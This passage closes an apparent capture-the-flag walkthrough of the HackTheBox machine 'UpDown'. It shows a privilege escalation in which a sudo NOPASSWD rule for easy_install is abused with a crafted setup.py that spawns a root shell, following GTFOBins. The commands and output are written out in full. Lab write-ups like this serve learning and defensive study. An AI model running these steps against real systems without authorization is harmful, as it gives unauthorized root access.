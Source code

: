 We have it, then use it to log in as user:


<p align="center">
  <img src="/images/walkthroughs/hackthebox/updown/6_0_user.png" width="60%"/>
</p>


## Privesc

Going for the privesc, first we try sudo -l and get the following script:


```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

I was looking for maybe install a fake package like _pip privesc_ but in [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) we have an easy escape for easy_install:


```bash
developer@updown:~$ id
uid=1002(developer) gid=1002(developer) groups=1002(developer)
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
```

And we have a shell as root:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/updown/7_0_root.png" width="80%"/>
</p>